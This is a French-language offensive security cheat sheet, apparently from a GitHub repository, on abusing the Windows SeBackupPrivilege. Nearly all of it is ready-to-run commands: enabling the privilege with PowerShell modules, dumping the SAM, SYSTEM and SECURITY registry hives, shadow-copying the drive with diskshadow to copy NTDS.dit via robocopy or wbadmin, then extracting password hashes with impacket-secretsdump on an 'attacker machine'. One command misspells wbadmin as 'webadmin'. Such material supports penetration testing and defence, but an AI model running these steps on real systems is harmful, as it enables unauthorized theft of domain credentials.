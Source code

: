 Le privilège SeBackup donne droit à l'utilisateur d'effectuer des sauvegardes. Le principe pour exploiter ce privilège est donc d'effectuer des sauvegardes du registre/de fichiers sensibles/etc afin d'obtenir les informations voulues.

### Si le privilège est "disabled"

https://github.com/giuliano108/SeBackupPrivilege

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

```powershell
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

Ce qui permettra d'activer le privilège.

---
### Sauvegarde du registre

Une sauvegarde du registre va permettre de récupérer les hash présents dans la SAM.

```cmd
reg save HKLM\SECURITY security.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
```

Une fois rapatrié sur notre poste attaquant, il est possible d'extraire les différents hash:

```bash
impacket-secretsdump -security security.save -system system.save -sam sam.save local
```

---
### Sauvegarde du fichier NTDS.dit

Plusieurs méthodes sont possibles selon le contexte.
#### Diskshadow

Création d'un script "backup.txt" pour diskshadow:

```cmd
set verbose on  
set metadata C:\Windows\Temp\meta.cab  
set context clientaccessible  
set context persistent  
begin backup  
add volume C: alias cdrive  
create  
expose %cdrive% E:  
end backup
```

#### Puis l'exécuter

```cmd
diskshadow /s .\backup.txt
```

#### Robocopy
#### Ceci va créer une réplique de C:\ sur le lecteur E:\ => les fichiers de E:\ sont ensuite copiables.

```cmd
robocopy /b E:\Windows\ntds . ntds.dit
```

#### Une fois rapatrié sur notre poste attaquant, il est possible d'extraire les différents hash

```bash
impacket-secretsdump -system system.save -ntds ntds.dit local
```

---
### Wbadmin

#### Wbadmin permet de créer un backup

```cmd
wbadmin start backup -quiet -backuptarget:\\dc01\c$\temp -include:c:\windows\ntds
```

#### On récupère ensuite la version du backup

```cmd
wbadmin get versions
```

#### Puis on la restore à un endroit accessible

```cmd
webadmin start recovery -quiet -version:07/26/2021-03:16 -itemtype:file -item:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
```

#### Une fois rapatrié sur notre poste attaquant, il est possible d'extraire les différents hash

```bash
impacket-secretsdump -system system.save -ntds ntds.dit local
```
